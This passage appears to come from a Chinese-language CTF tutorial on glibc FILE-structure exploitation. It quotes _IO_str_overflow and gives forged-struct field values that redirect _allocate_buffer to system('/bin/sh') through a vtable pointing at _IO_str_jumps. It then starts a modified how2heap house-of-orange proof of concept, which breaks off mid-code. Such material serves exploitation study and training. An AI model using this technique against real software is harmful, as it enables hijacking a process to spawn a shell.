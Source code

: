 ```c
	  fp->_IO_write_end = fp->_IO_buf_end;
	}
    }

  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
libc_hidden_def (_IO_str_overflow)

```

利用以下代码来劫持程序流程

```c
	  new_buf
	    = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

几个条件 bypass：

1. `1. fp->_flags & _IO_NO_WRITES为假`
2. `2. (pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))`
3. `3. fp->_flags & _IO_USER_BUF(0x01)为假`
4. `4. 2*(fp->_IO_buf_end - fp->_IO_buf_base) + 100 不能为负数`
5. `5. new_size = 2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100; 应当指向/bin/sh字符串对应的地址`
6. `6. fp+0xe0指向system地址`

构造：

```
_flags = 0
_IO_write_base = 0
_IO_write_ptr = (binsh_in_libc_addr -100) / 2 +1
_IO_buf_end = (binsh_in_libc_addr -100) / 2 

_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1

vtable = _IO_str_jumps - 0x18
```

#### 示例

修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    // unsorted bin attack
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
    // _IO_str_overflow conditions
```